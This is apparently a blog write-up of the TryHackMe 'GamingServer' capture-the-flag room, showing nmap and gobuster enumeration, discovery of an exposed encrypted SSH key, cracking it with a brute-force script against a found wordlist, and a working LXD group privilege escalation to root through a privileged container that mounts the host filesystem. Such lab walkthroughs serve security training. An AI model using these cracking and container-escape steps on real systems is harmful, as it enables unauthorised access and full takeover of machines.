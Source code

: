 ```yaml
---
layout: post
title:  "THM - GamingServer Writeup"
date:   2022-09-11
author:
  - "Mario Raciti"
tags: ctf
cover_image: "https://img.freepik.com/free-vector/cartoon-gamer-room-illustration_23-2148918173.jpg?t=st=1722088846~exp=1722092446~hmac=f288e1af68ebef208c50708f24921ab6268d4530717adc9e75ff5427045522f8&w=1480"
---
```


The aim of this room is to gain access to a gaming server built by amateurs with no experience of web development and to take advantage of the deployment system.
<!-- readmore -->

![cover](https://img.freepik.com/free-vector/cartoon-gamer-room-illustration_23-2148918173.jpg?t=st=1722088846~exp=1722092446~hmac=f288e1af68ebef208c50708f24921ab6268d4530717adc9e75ff5427045522f8&w=1480)

There is only one task, indicating that we have to get two flags: `user_flag` and `root_flag`. So without any further ado, let's begin our game!

> TryHackMe CTF Room: <https://tryhackme.com/room/gamingserver>

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 17:09 CEST
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.10.26.252
Host is up (0.078s latency).
Not shown: 921 closed ports, 77 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.45 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

Thus, we can guess that a candidate username for an SSH login could be `john`.

Now let's look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

user-agent: *
Allow: /
/uploads/
```

We can see the `/uploads` endpoint, so let's investigate about:

```
GET http://$IP/uploads/

dict.lst 2020-02-05 14:10 2.0K  
manifesto.txt 2020-02-05 13:05 3.0K  
meme.jpg 2020-02-05 13:32 15K  
```

The `dict.lst` file seems to contain a password list. Maybe this list could be used to brute force the SSH login.

### Gobuster

Before going ahead, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.252
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/31 17:44:37 Starting gobuster
===============================================================
/secret (Status: 301)
/uploads (Status: 301)
===============================================================
2020/08/31 17:45:03 Finished
===============================================================
```

As we can see, the tool found only two directories: `/secret` and `/uploads`. We already checked the latter, so we can concentrate our analysis on the `/secret` endpoint:

```
GET http://$IP/secret/

secretKey 2020-02-05 13:41 1.7K
```

Bingo! We got a private RSA SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

*******************************************
***********CENSORED_EH_EH******************
*******************************************
-----END RSA PRIVATE KEY-----
```

## SSH Dictionary Attack

The SSH RSA private key is encrypted, so we have to crack the password. To this purpose, we can surely use the `dict.lst` list that we found previously. Note that this operation can be performed by using our old friend JohnTheRipper, but in this case, I preferred to use the SSHAttacker Python script - the source is available [here](https://github.com/forScie/SSHAttacker) - to think *out of the box*. Before starting the cracking process, I just added the `key_name='rsa_id'` parameter to the connect method in the script, to adapt it to our use case:

```python
line 36    ssh.connect(target, port=int(float(port)), username=user, password=password, key_filename='./rsa_id')
```

At this point, we can simply run SSHAttacker with `dict.lst` as password list:

```
...
[-] Attempt n-1: ***censored*** ... Unsuccessful
[-] Attempt n: ***password_eheh*** ... Bingo!

[!] SUCCESS! Creds: john@10.10.165.124:22 Password: ***password_eheh***
```

We got the password and, after logging in via SSH, we can finally retrieve the user flag:

```sh
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
***user_flag***
```

## Privilege Escalation

Now we have to elevate our privileges to get the root flag. We can just scp and run the [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script in the VM to look for something interesting.
First, I noticed that there is a weird link in a `/usr/bin/at` binary. But it was a joke just as `/usr/bin/pkexec`, another potential way to elevate our privileges. Both refer to CVEs which can be exploited by using a C executable, FYI.

At this point, I was looking for the right way to perform a privilege escalation. We can notice that the user john is in the lxd group:

```sh
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We can exploit this fact because LXD containers run with root privileges in most cases. Therefore, the exploit consists of mounting the file system in a container, so that we can have access to it. For more information, you can read [this article](https://www.hackingarticles.in/lxd-privilege-escalation/). In our case, we can use the alpine image:

```sh
attacker@machine:~$ git clone https://github.com/saghul/lxd-alpine-builder.git
attacker@machine:~$ cd lxd-alpine-builder/
attacker@machine:~$ sudo ./build-alpine -a i686
```

Now we have to move the `alpine-v3.12-i686-20200901_1306.tar.gz` archive to the victim machine:

```sh
attacker@machine:~$ scp -i rsa_id alpine-v3.12-i686-20200901_1306.tar.gz john@10.10.170.65:/home/john/
```

Eventually, all we have to do is to just add the image as follows:

```sh
john@exploitable:~$ lxc image import alpine-v3.12-i686-20200901_1306.tar.gz --alias exploit_image
Image imported with fingerprint: dc53ca24314f0dee7e940d9e9519215a725b761e8e6ad98
john@exploitable:~$ lxc image list
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
|     ALIAS     | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE         |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
| exploit_image | dc53ca24314f | no     | alpine v3.12 (20200901_13:06) | i686 | 3.07MB | Sep 1, 2020 at 1:17pm (UTC) |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
```

We can now run the container from the `exploit_image` image:

```sh
john@exploitable:~$ lxc init exploit_image ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite my_device disk source=/ path=/mnt/root recursive=true
Device my_device added to ignite
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
~ # whoami
root
```

And voilà!

The root flag can be retrieved by going to the mounted path `/mnt/root/root`:

```sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
***root_flag***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/GamingServer>.
